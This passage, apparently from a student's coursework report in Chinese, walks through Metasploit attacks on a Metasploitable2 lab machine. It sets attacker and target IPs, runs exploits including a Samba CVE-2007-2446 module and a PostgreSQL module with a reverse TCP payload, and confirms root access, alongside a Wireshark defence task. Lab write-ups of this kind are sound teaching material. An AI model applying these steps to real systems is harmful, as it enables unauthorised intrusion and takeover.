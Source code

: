     ![image-20200419215347897](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-1-2.png)

  - 执行`set LHOST 192.168.200.4`设置攻击机为kali，`set RHOST 192.168.200.125`设置靶机为Metasploitable2-Linux，再`show options`查看是否配置成功，如图：

    ![image-20200419215511091](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-1-3.png)

  - 这里可能会用到`show targets`、`set target [number]`配置靶机的操作系统及版本，我这里默认选择的是0号（自动分配），所以不再配置。

- 开始渗透攻击

  - 输入`exploit`开始攻击。

    ![image-20200419215959564](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-1-4.png)

  - 输入`ifconfig`查看靶机IP，与真实IP一致，验证了本次渗透攻击已经成功。执行`whoami`查看获得权限为root，如图：

    ![image-20200419220232329](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-1-5.png)

### 2.2 实践作业：攻防对抗实验

攻击方：使用Metasploit选择Metasploitable靶机中发现的漏洞进行渗透攻击，获得远程控制权，并尝试进一步获得Root权限。

防守方：使用wireshark监听获得网络攻击的数据包文件，并结合wireshark分析攻击过程，获得攻击者的IP地址，目标IP和端口、攻击发起时间、攻击利用漏洞、使用shellcode，以及成功之后在本地执行命令输入等信息。

------

- **攻击方**

  - 首先用nessus扫描靶机漏洞，如图：

    ![image-20200419233817951](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-2-1.png)

  - 这里我尝试了对445端口的漏洞CVE-2007-2446进行攻击，选择exploit/solaris/samba/lsa_transnames_heap这个渗透攻击模块攻击成功，但是建立的却是攻击机到192.168.200.2的连接，经过尝试是因为我打开了该虚拟机，关掉就抓不到该IP的包。但是攻击并不成功，一直在循环的请求连接。如图：

    ![image-20200419232655026](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-2-2.png)

    ![image-20200420003511230](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-2-3.png)

  - 按顺序尝试了所有漏洞，幸好这个貌似成功了。具体过程见下。

  - `search postgresql`查看可供选择模块：

    ![image-20200420010745584](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-2-4.png)

    这里我首先尝试了19年和16年的，都攻击失败，看来还是不要奢求太新的漏洞，选择07年的。

  - 输入`show payloads`列举出所有适用的负载模块，如图所示：

    ![image-20200420011416135](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-2-5.png)

  - 然后执行`set payload 3`选择你要用的攻击负载模块。这里我选择了3号（TCP反转）。

  - 执行`set LHOST 192.168.200.4`设置攻击机为kali，`set RHOST 192.168.200.125`设置靶机为Metasploitable2-Linux，再`show options`查看是否配置成功，如图：
